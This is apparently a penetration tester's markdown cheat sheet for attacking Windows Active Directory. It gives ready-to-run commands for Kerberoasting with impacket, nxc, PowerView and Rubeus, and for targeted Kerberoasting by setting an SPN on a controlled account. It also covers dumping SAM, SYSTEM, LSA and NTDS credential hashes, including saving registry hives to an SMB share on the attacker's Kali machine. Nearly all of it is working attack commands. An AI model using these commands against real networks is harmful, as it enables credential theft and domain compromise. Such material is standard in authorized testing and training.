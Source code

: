 # ***Kerberoast (Du)***
## impacket / nxc
```shell
# Impacket
impacket-GetUserSPNs -dc-ip `dc` `dom`/USER[:PASS] -hashes :HASH -request [ -request-user SPN ] -outputfile hashes.kerberoast

# NXC
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```
## PV / rubeus
```shell
# PowerView
Get-DomainUser -SPN
Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
Get-DomainUser -Identity <User> | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash

# Rrubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

***targeted Kerberoast***
***GenericWrite or GenericAll on user account** → could reset password OR could SET SPN for that user and Kerberoast → Now Kerberoast this user*
```shell
# 1 GET services of interest 
Get-DomainUser -SPN

# 2 SET our controlled user
Set-DomainObject -Identity TARGETUSER -Set @{serviceprincipalname='testdomain.local/myspnX'}

# 3 Now Kerberoast
# https://medium.com/@mayank_prajapati/all-you-need-to-know-about-kerberoasting-7215de0462c8
```
# *Dump SAM/SYSTEM/LSA/LSASS Hashes (LA)*
## impacket-secretsdump / impacket-reg
```shell
# A secretsdump (Remote dump)
impacket-secretsdump `dom`/'AdminUser'[:'pass']@`tip` -hashes :HASH [ -k ccachefile -no-pass ]

# B reg.py (Local dump in Kali)
# 1 Start smb server
impacket-smbserver smb . -smb2support [ -username user -password pass ]

# 2 Save each hive manually
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` save -keyName 'HKLM\SAM' -o '\\KALI_IP\smb'
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` save -keyName 'HKLM\SYSTEM' -o '\\KALI_IP\smb'
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` save -keyName 'HKLM\SECURITY' -o '\\KALI_IP\smb'
# or all at once
impacket-reg `dom`/'AdminUser'[:'pass']@`tip` backup -o '\\KALI_IP\smb'

# 3
impcaket-secretsdump -sam 'sam' -security 'security' -system 'system' LOCAL
```
## nxc
```shell
nxc smb `tip` -u 'AdminUser' -p 'pass' --sam [ --lsa | --ntds ]
```